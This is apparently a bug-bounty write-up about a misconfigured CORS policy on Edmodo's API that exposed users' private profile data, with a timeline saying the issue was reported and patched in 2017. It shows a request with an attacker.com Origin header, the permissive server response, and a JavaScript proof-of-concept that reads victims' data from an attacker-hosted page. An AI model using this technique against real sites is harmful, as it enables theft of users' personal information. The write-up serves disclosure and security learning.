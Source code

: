 # 🔰 Edmodo Users Private Information Disclosure : CORS Exploitation

###### *Disclosure of Edmodo Users Private Information using mis-configured CORS exploitation*

![Edmodo Users Private Information Disclosure : CORS Exploitation](https://i.imgur.com/tyaOfps.jpg "Edmodo Users Private Information Disclosure : CORS Exploitation")

I hope you read my previous post on ["Mis-configured CORS Exploitation"](https://github.com/SuyogPalav/Bug-Bounty-Writeups/blob/main/1.%20Exploitation%20of%20Mis-configured%20Cross-%20Origin%20Resource%20Sharing%20(CORS).md).

so let's continue..


## Edmodo CORS Request:

![Edmodo Logo](https://i.imgur.com/cB3V5gM.png "Edmodo Logo")

After updating some information on edmodo, I got a URL that sends a `GET` request along with an `access token` in order to fetch the users private information.
therefore, i changed the `Origin` and confirmed that it is unsafe for CORS or not.

> **Request:**
> ```
> GET /profiles/user_id?param1=&param2=&access_token=eyJ0eXAiOiJKV1QiLC..... HTTP/1.1
> 
> Host: api.edmodo.com
> 
> User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0
> 
> Accept: application/json, text/javascript, */*; q=0.01
> 
> Accept-Language: en-US,en;q=0.5
> 
> Accept-Encoding: gzip, deflate, br
> 
> Referer: https://www.edmodo.com/home
> 
> Origin: https://www.attacker.com
> 
> Connection: keep-alive
> ```

![Edmodo CORS Request](https://i.imgur.com/4n2fSJW.jpg "Edmodo CORS Request")

and the Response was,

> **Response:**
> ```
> HTTP/1.1 200 OK
> 
> Access-Control-Allow-Credentials: true
> 
> Access-Control-Allow-Methods: GET, POST, PUT, DELETE, OPTIONS, PATCH
> 
> Access-Control-Allow-Origin: https://www.attacker.com
> 
> Access-Control-Expose-Headers: Link, X-Total-Count
> 
> Access-Control-Max-Age: 1728000
> 
> Cache-Control: max-age=0, private, must-revalidate
> 
> Content-Type: application/json; charset=utf-8
> 
> Date: Tue, 08 Aug 2017 21:11:39 GMT
> 
> ETag: W/"8907834cb797c5c5c71eb4073ec1234"
> 
> Server: nginx
> 
> Strict-Transport-Security: max-age=16070400; includeSubDomains
> 
> Vary: Accept-Encoding, Origin
> 
> X-RateLimit-Limit: 1000000
> 
> X-RateLimit-Remaining: 999778
> 
> X-Request-Id: ee8aa9fc-7473-4477-913c-1504a556564e
> 
> X-Runtime: 0.203002
> 
> Content-Length: 1315
> 
> Connection: keep-alive
>
> 
>
> [JSON Data : user credentials…]
> ```

![Edmodo CORS Response](https://i.imgur.com/n3dyXfr.png "Edmodo CORS Response")

So, It was mis-configure CORS request, allowed `ACAO: https://www.attacker.com` , `ACAC: true` with `user credentials`.

also here, I noticed that `Access Tokens` are valid for a long period of time (or never expire) and with the help of this `Access Token` i can be able to get the private data of other users. 
(this was another issue, which we will discuss later in another blog)

So now we have our Vulnerable Endpoint: https://api.edmodo.com/profiles/user_id?param1=&param2=&access_token=eyJ0eXAiOiJKV1QiLC.....


## CORS Exploitation :

After creating a CORS exploitation POC, i upload it on my server.

> ```
> function cors() {
> 
> var xhttp = new XMLHttpRequest();
> 
> xhttp.onreadystatechange = function() {
> 
> if (this.readyState == 4 && this.status == 200) {
> 
> document.getElementById("demo").innerHTML = this.responseText;
> 
> }
> 
> };
> 
> xhttp.open("GET", "https://api.edmodo.com/profiles/user_id?param1=&param2=&access_token=eyJ0eXAiOiJKV1QiLC.....", true);
> 
> xhttp.withCredentials; //default:false
> 
> xhttp.send();
> 
> }
> ```


![CORS Exploitation](https://i.imgur.com/6lftD70.png "CORS Exploitation")

Once a logged-in Edmodo user clicks on the Exploit button, their personal information will be disclosed,
like : email address, secondary email address, home address, city, zip code, state, country, latitude, longitude, created date, role, about, etc..

![CORS Exploitation - Disclosed Information](https://i.imgur.com/3gESVLH.png "CORS Exploitation - Disclosed Information")

***

### Timeline:

> Aug 09, 2017 : Reported Date (CORS Exploitation)
> 
> Aug 11, 2017 : Report Triaged
> 
> Sep 24, 2017 : Reported Additional Info. [Read here](https://github.com/SuyogPalav/Bug-Bounty-Writeups/blob/main/3.%20IDOR%20%2B%20JWT%20Token%20-%20Edmodo%20All%20Users%20Private%20Information%20Disclosure.md)
> 
> Oct 12, 2017 : Bug Patched [CORS still present ; but restricted the access of getting private information]

<br>

**Happy Hunting…!!! 🔱**

<br>

**Next Post 🔰 :**
